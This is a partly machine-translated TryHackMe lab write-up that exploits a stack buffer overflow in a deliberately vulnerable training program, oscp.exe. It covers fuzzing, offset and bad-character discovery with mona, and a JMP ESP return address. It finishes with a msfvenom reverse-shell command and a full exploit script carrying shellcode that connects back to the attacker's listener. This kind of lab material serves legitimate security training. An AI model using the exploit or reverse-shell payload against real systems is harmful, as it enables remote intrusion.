# TryHackMe: OSCP 缓冲区溢出准备(溢出 1)

> 原文：<https://infosecwriteups.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27?source=collection_archive---------0----------------------->

**由 Shamsher khan 练习基于堆栈的缓冲区溢出！对于 OSCP**


**房间链接:**[**https://www.tryhackme.com/room/bufferoverflowprep**](https://www.tryhackme.com/room/bufferoverflowprep) **注:此房免费**

[**下载 OSCP.exe**](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app)

[](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) [## shamsherkhan 852/缓冲区溢出漏洞 app

### SLMail 安装程序。脑盘双星。dostackbufferoverflowgood 二进制文件。vulnserver 二进制文件。一个习俗…

github.com](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) 

# 定义:

1.  EIP = > 扩展指令指针(EIP)是一个寄存器，包含程序或命令的下一条指令的地址。
2.  **ESP= >** 扩展堆栈指针(ESP)是一个寄存器，它让你知道你在堆栈上的位置，并允许你将数据推入和推出应用程序。
3.  **JMP = >** 跳转(JMP)是一条修改执行流程的指令，其中您指定的操作数将包含要跳转到的地址。
4.  **\x41，\x42，\ x43 =>**A、B、c 的十六进制值，对于这个练习，使用十六进制 vs ascii 没有什么好处，这只是我个人的喜好。

# 溢出#1

好的，现在我们应该以管理员身份运行我们的免疫调试器并打开 oscp.exe。


应用程序将以“暂停”状态加载到调试器中。在 Immunity Debugger 中单击上方栏上的红色播放按钮。

通过检查免疫力调试器右下角的状态，确保 exe 正在运行。



要进行检查，我们可以使用端口 1337 NC 到目标机器。



在 mona 中设置工作文件夹。

[](https://github.com/corelan/mona) [## 科勒兰/莫娜

### 是一个 python 脚本，可以用来自动化和加速特定的搜索…

github.com](https://github.com/corelan/mona) 

将 mona.py 和 paset 下载到 C:\ Program Files(x86)\ Immunity Inc \ Immunity Debugger \ py commands

```
!mona config -set workingfolder c:\mona\%p
```


让我们试着运行 fuzzer.py(从房间获取)看看结果。只需检查脚本中的 IP 是否正确，并确保在运行脚本之前再次运行免疫调试器中的 oscp.exe。

## Fuzzer.py

```
import socket, time, sysip = "192.168.43.57";
port = 1337
timeout = 5buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

同时复制 **exploit.py** 代码

```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py



如果你能看到它停在 2000 字节，这意味着偏移量将在 1900 到 2000 字节的范围内。让我们创建一个大于 400 字节偏移量的模式，也就是 2400 字节。破坏了我们的计划


上图中你可以看到 EIP 被一个(十六进制=41)覆盖了

所以我们需要找到程序崩溃的确切地址

现在根据使服务器崩溃的字节长度生成一个模式。

```
msf-pattern_create -l 2400
```



所以复制有效载荷，放入 exploit.py 中的有效载荷变量，尝试运行。该脚本应该会再次使 oscp.exe 服务器崩溃。



确保 oscp.exe 正在免疫调试器中运行。对目标执行 exploit.py。



在上图中，我们有 EIP=6F43396E

## 查找偏移值



偏移值是 1978

**另一种方法**使用 mona 模块查找偏移值

尝试在免疫模式下运行以下 mona 命令:

```
!mona findmsp -distance 2400
```


所以寻找表示 EIP 包含正常模式的行:0x76413176(偏移量 1978)。我们在 offset 变量中找到的偏移量，并将 retn 变量设置为 BBBB。

更新偏移量和 retn 变量



重新启动。exe，并使用 Ctrl+F2 和 F9 运行。执行 exploit.py。如果偏移量是正确的，我们应该看到" 42424242"

Let’s run it again.



As we can see the EIP Register is Overwritten with BBBB or 42424242\. So far everything went well.

Take note of the ESP address because we will be using the values in this position in future step

## Find Badchars

Now we need to find the BADCHARS- For which we create BADCHARS, on set inside the machine using MONA and another by just googling or using a python script.By default \x00 is considered as a BADCHAR so it is to be neglected for sure. This helps us to identify the characters which are really BAD for our program!

Generate a bytearray using mona, and exclude the null byte (\x00) by default.

Use this mona commands.

```
!mona bytearray -b "\x00"
```


Now we need to generate a string of bad chars from \x01 to \xff that is identical to the bytearray. Use the python script

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```



This generated string has already removed the \x00 so we need to remove that from the .bin with mona.

Copy the new generated string into the payload variable in the exploit.py



Run the script and take note of the address to which the ESP register points



Right click on ESP Value and Follow in dump



in the above image the sequence has been changed after 06 that means there are some badchar in over payload lets find out badchars

Use it in the following mona command

**注意:-** 也许您的 ESP 地址不同

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00DCFA28
```



可能的错误字符

所以我们找到了一个可能的坏字符列表`**07 08 2e 2f a0 a1**`

并非所有这些都是不好的字符！有时坏字符也会导致下一个字节损坏，甚至影响字符串的其余部分。

此时，我开始一次删除一个不良字符。我通过重复以下步骤，一次删除一个坏字符:

*   从字节数组中删除字符
*   从漏洞有效载荷中移除字符
*   启动 exe
*   使用 mona 进行比较

开始豁免 oscp.exe，

所以我创建了一个新的 bytearray，并从有效负载中删除了\x07

```
!mona bytearray -b "\x00\x07"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\x07 并运行 exploit.py

```
#python exploit.py
```

检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00EFFA28(ESP)
```



根据免疫调试器的提示，现在可能的坏人是 x2e \x2f \xa0 \xa1。这意味着一个 BADCHAR 把它的相邻字节也变成了 BADCHAR，缺省情况下 BAD char 是不需要的

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\x2e

```
!mona bytearray -b "\x00\x07\x2e"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\x2e 并运行 exploit.py

```
#python exploit.py
```

检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0080FA28
```



同样，x2e 是一个坏字符，x2f 不是。

现在我们只有两个明显的坏蛋

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\xa0

```
!mona bytearray -b “\x00\x07\x2e\xa0”
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\xa0 并运行 exploit.py

```
#python exploit.py
```

检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00C3FA28
```



在这之后！我们启动它并在 MONA 中运行比较，我们发现地址现在未被修改。嘣，我们终于有了坏蛋

未修改错误

试错之后，顺序是这样的。


绿色方框表示正确的坏字符

让我们再次使用 mona 命令找到跳转点:

```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```



上述结果中的任何地址都可能被用作漏洞利用中的 retn 值。小端=反。还要添加填充以允许有效载荷打开包装。

注意地址 **625011AF**

用新地址更新我们的 retn 变量，并且必须向后写(因为系统是 little-endian=Reverse)。

```
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
```



现在使用 msfvenom 生成反向 shell 有效负载。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x07\x2e\xa0” -f c
```


将有效负载复制到 exploit.py 中



所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = ("\xba\xba\x45\x54\xb0\xdb\xc3\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\x54\xb9\xb6\x45\x54\xaa\xb5"
"\xa6\xa4\x2b\xda\x2f\x41\x1a\xda\x54\x02\x0d\xea\x1f\x46\xa2"
"\x81\x72\x72\x31\xe7\x5a\x75\xf2\x42\xbd\xb8\x03\xfe\xfd\xdb"
"\x87\xfd\xd1\x3b\xb9\xcd\x27\x3a\xfe\x30\xc5\x6e\x57\x3e\x78"
"\x9e\xdc\x0a\x41\x15\xae\x9b\xc1\xca\x67\x9d\xe0\x5d\xf3\xc4"
"\x22\x5c\xd0\x7c\x6b\x46\x35\xb8\x25\xfd\x8d\x36\xb4\xd7\xdf"
"\xb7\x1b\x16\xd0\x45\x65\x5f\xd7\xb5\x10\xa9\x2b\x4b\x23\x6e"
"\x51\x97\xa6\x74\xf1\x5c\x10\x50\x03\xb0\xc7\x13\x0f\x7d\x83"
"\x7b\x0c\x80\x40\xf0\x28\x09\x67\xd6\xb8\x49\x4c\xf2\xe1\x0a"
"\xed\xa3\x4f\xfc\x12\xb3\x2f\xa1\xb6\xb8\xc2\xb6\xca\xe3\x8a"
"\x7b\xe7\x1b\x4b\x14\x70\x68\x79\xbb\x2a\xe6\x31\x34\xf5\xf1"
"\x36\x6f\x41\x6d\xc9\x90\xb2\xa4\x0e\xc4\xe2\xde\xa7\x65\x69"
"\x1e\x47\xb0\x3e\x4e\xe7\x6b\xff\x3e\x47\xdc\x97\x54\x48\x03"
"\x87\x57\x82\x2c\x22\xa2\x45\x93\x1b\xad\x1b\x7b\x5e\xad\x32"
"\x20\xd7\x4b\x5e\xc8\xb1\xc4\xf7\x71\x98\x9e\x66\x7d\x36\xdb"
"\xa9\xf5\xb5\x1c\x67\xfe\xb0\x0e\x10\x0e\x8f\x6c\xb7\x11\x25"
"\x18\x5b\x83\xa2\xd8\x12\xb8\x7c\x8f\x73\x0e\x75\x45\x6e\x29"
"\x2f\x7b\x73\xaf\x08\x3f\xa8\x0c\x96\xbe\x3d\x28\xbc\xd0\xfb"
"\xb1\xf8\x84\x53\xe4\x56\x72\x12\x5e\x19\x2c\xcc\x0d\xf3\xb8"
"\x89\x7d\xc4\xbe\x95\xab\xb2\x5e\x27\x02\x83\x61\x88\xc2\x03"
"\x1a\xf4\x72\xeb\xf1\xbc\x93\x0e\xd3\xc8\x3b\x97\xb6\x70\x26"
"\x28\x6d\xb6\x5f\xab\x87\x47\xa4\xb3\xe2\x42\xe0\x73\x1f\x3f"
"\x79\x16\x1f\xec\x7a\x33")postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
  print("Done!")
except:
  print("Could not connect.")
```

用 netcat 启动一个监听器



再次启动易受攻击的应用程序。执行 exploit.py 现在回头看 netcat。



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

点击此处加入电报
[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

## [缓冲区溢出准备(溢出-2)](/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f)

[](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) [## 基于堆栈的缓冲区溢出实用程序(Vulnserver)

### Shamsher Khan 利用 TRUN 命令攻击 vulnserver 缓冲区溢出

shamsher-khan-404.medium.com](https://shamsher-khan-404.medium.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5) 

感谢您花时间阅读我的演练。如果你觉得它有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！